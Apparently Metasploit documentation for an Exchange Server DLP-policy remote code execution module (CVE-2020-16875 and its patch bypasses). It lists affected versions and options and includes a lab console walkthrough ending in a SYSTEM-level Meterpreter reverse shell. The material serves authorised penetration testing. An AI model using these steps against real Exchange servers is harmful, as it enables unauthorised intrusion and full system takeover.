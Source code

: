 ## Vulnerable Application

### Description

This vulnerability allows remote attackers to execute arbitrary code on affected installations of Exchange Server.
Authentication is required to exploit this vulnerability. Additionally, the target user must have the `Data Loss
Prevention` role assigned and an active mailbox.

If the user is in the `Compliance Management` or greater `Organization Management` role groups, then they have the `Data
Loss Prevention` role. Since the user who installed Exchange is in the `Organization Management` role group, they
transitively have the `Data Loss Prevention` role.

The specific flaw exists within the processing of the `New-DlpPolicy` cmdlet. The issue results from the lack of proper
validation of user-supplied template data when creating a DLP policy. An attacker can leverage this vulnerability to
execute code in the context of `SYSTEM`.

Tested against Exchange Server 2016 CU19 on Windows Server 2016.

#### A Note On Patches And Bypasses

The root cause of this vulnerability was first identified and reported to Microsoft who assigned it CVE-2020-16875 and
attempted to fix it in Exchange Server 2016 Cumulative Update (CU) 18 and Exchange Server 2019 CU7 which were released
on September 15th, 2020. The patch was later able to be [bypassed][1], allowing newer versions upto and including 
Exchange Server 2016 CU19 and Exchange Server 2019 CU8 which were released on December 15th 2020. One of the first patch
bypasses was assigned CVE-2020-17132 and was addressed by Microsoft, however that patch too was able to be bypassed.

### Setup

Set up a [vulnerable target](#targets).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`Exchange Server <= 2016 CU19 and 2019 CU8`

## Options

### USERNAME

Set this to the OWA username.

### PASSWORD

Set this to the OWA password.

## Scenarios

### Exchange Server 2016 CU17 on Windows Server 2016

```
msf > use exploit/windows/http/exchange_ecp_dlp_policy 
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf exploit(windows/http/exchange_ecp_dlp_policy) > set USERNAME smcintyre
USERNAME => smcintyre
msf exploit(windows/http/exchange_ecp_dlp_policy) > set PASSWORD Password1
PASSWORD => Password1
msf exploit(windows/http/exchange_ecp_dlp_policy) > set VHOST WIN-BPID95ACQ7E
VHOST => WIN-BPID95ACQ7E
msf exploit(windows/http/exchange_ecp_dlp_policy) > show options 

Module options (exploit/windows/http/exchange_ecp_dlp_policy):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Password1        no        OWA password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.42   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   USERNAME   smcintyre        no        OWA username
   VHOST      WIN-BPID95ACQ7E  no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Exchange Server <= 2016 CU19 and 2019 CU8


msf exploit(windows/http/exchange_ecp_dlp_policy) > check
[*] 192.168.159.42:443 - The target appears to be vulnerable. Exchange Server 15.1.2176 is a vulnerable build.
msf exploit(windows/http/exchange_ecp_dlp_policy) > exploit

[*] Started HTTPS reverse handler on https://192.168.159.128:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Exchange Server 15.1.2176 is a vulnerable build.
[*] Logging in to OWA with creds smcintyre:Password1
[+] Successfully logged in to OWA
[*] Retrieving ViewState from DLP policy creation page
[+] Successfully retrieved ViewState
[*] Creating custom DLP policy from malicious template
[*] https://192.168.159.128:8443 handling request from 192.168.159.42; (UUID: lg8kqsog) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 192.168.159.42:37415) at 2021-01-13 09:17:08 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html
